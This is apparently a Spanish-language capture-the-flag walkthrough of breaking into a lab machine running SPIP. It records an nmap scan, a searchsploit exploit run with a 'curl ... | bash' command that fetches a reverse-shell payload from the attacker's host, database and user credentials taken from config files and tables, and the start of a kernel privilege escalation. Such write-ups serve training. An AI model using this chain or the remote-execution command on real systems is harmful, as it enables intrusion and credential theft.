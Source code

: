Hacemos el escaneo con nmap:
![[Pasted image 20231026082921.png]]
Esto es lo que corre por el puerto 80:
![[Pasted image 20231026083005.png]]
Vemos en searchsploit si existen exploits con SPIP:
![[Pasted image 20231026083058.png]]
O también por exploitdb y nos bajamos este mismo:
![[Pasted image 20231026083205.png]]
Por tanto lo que haremos será primero crear un servidor http con python con el payload de la reverse shell:
![[Pasted image 20231026083743.png]]
Lanzamos el exploit:
```python
python3 51536.py -u http://192.168.0.34/ -c "curl 192.168.0.32 | bash" -v
```
![[Pasted image 20231026083755.png]]
Y recibimos la conexión con netcat:
![[Pasted image 20231026083815.png]]
Y el contenido del fichero .bash_history nos da una pista de que igual podemos entrar a la base de datos, aunque aún nos falta la contraseña:
![[Pasted image 20231026084605.png]]
Y dentro del directorio config nos encontramos con un archivo llamado connect.php con la contraseña de root de la base de datos:
```sql
root:dbpassword
```
![[Pasted image 20231026084721.png]]
![[Pasted image 20231026084836.png]]
Usamos la base de datos spip y vemos una tabla llamada spip_auteurs:
![[Pasted image 20231026085019.png]]
Seleccionamos todo el contenido de la tabla spip_auteurs y vemos las credenciales del usuario angela:
![[Pasted image 20231026085114.png]]
```bash
angela:4ng3l4
```
Nos autenticamos y ya somos el usuario angela:
![[Pasted image 20231026090025.png]]
Y vemos que estamos ante esta versión de ubuntu:
![[Pasted image 20231026090059.png]]
Y si miramos en google tenemos este exploit:
![[Pasted image 20231026090640.png]]
Y buscamos por ese cve llegando a este repositorio de github:
![[Pasted image 20231026091110.png]]
Nos lo bajamos en la máquina víctima:
![[Pasted image 20231026091202.png]]
Ejecutamos un try y comienza una especie de contador:
![[Pasted image 20231026091355.png]]
